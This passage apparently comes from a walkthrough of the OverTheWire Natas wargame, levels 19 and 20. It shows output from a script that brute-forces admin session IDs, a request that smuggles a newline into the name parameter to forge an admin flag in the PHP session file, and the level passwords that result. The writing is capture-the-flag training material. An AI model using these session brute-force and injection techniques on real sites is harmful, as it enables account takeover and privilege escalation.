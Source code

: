 ```
root@kali:~# python a.py
This might take a while
Testing for session =0
...
...
Testing for session =89
Found it! Session =89
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas19", "pass": "4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs" };</script></head>
<body>
<h1>natas19</h1>
<div id="content">
<p>
<b>
This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
</b>
</p>
You are an admin. The credentials for the next level are:<br><pre>Username: natas20
Password: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF</pre></div>
</body>
</html>

Completed!
```

### Level 20

```
natas20.natas.labs.overthewire.org/index.php?name=admin%0Aadmin%201&debug=true
with cookies set to asd

 DEBUG: MYREAD asd
DEBUG: Reading from /var/lib/php5/sessions//mysess_asd
DEBUG: Read [admin 1]
DEBUG: Read [name admin]
DEBUG: Read [admin 1]
DEBUG: Read []
DEBUG: Name set to admin admin 1
You are an admin. The credentials for the next level are:

Username: natas21
Password: IFekPyrQXftziDEsUr3x21sYuahypdgJ
```
